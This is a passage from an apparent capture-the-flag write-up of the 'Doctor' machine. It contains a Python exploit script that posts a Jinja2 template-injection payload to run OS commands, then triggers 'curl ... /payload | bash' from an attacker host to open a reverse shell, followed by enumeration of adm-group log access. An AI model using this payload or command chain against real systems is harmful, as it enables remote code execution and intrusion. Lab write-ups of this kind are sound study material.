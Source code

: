 ```python
payload = {'username':username,'email':email,'password':password,'confirm_password':password,'submit':'Sign Up'}
r = s.post(url+'/register',data=payload)

# Login
payload = {'email':email,'password':password,'submit':'Login'}
r = s.post(url+'/login?next=%2Fhome',data=payload)

# Create message
{% raw %}
title = "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}"
{% endraw %}
payload = {'title':title,'content':'content','submit':'Post'}
r = s.post(url+'/post/new',data=payload)

# Get Reverse shell
command = requests.utils.quote('curl -L http://'+ip+'/payload | bash')
r = s.get(url+'/archive?input='+command)
```

## User flag

After getting a reverse shell, [I have upgraded it](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html) and then started to enumerate the box:

- The existing users in this box, based on the enumeration of home folders are **shaun** and **web**

- Checking the groups that the current user **web** is member, we notice that this account is a member of group **adm**

```bash
web@doctor:/home$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

- The **adm** group on Linux systems grants access to files located at `/var/log`, which will possibly allow us to find some sensitive information in the logs from web services or other tasks.

### Analyzing log files under /var/log

So to start this analysis let's see which components, besides the system defaults, we have being logged on this box

```bash
web@doctor:/var/log$ ls -ld */
drwxr-x---  2 root              adm             4096 Jan 31 00:00 apache2/
drwxr-xr-x  2 root              root            4096 Sep  7 12:13 apt/
drwxr-xr-x  2 root              root            4096 Jan 31 00:00 cups/
drwxr-xr-x  2 root              root            4096 Apr  8  2020 dist-upgrade/
drwxr-xr-x  3 root              root            4096 Apr 23  2020 hp/
drwxrwxr-x  2 root              root            4096 Jul 26  2020 installer/
drwxr-sr-x+ 3 root              systemd-journal 4096 Jul 20  2020 journal/
drwxr-xr-x  2 root              root            4096 Sep  5  2019 openvpn/
drwx------  2 root              root            4096 Apr 23  2020 private/
drwx------  2 speech-dispatcher root            4096 Jan 19  2020 speech-dispatcher/
drwxr-x---  2 root              adm             4096 Jan 30 19:13 unattended-upgrades/
```
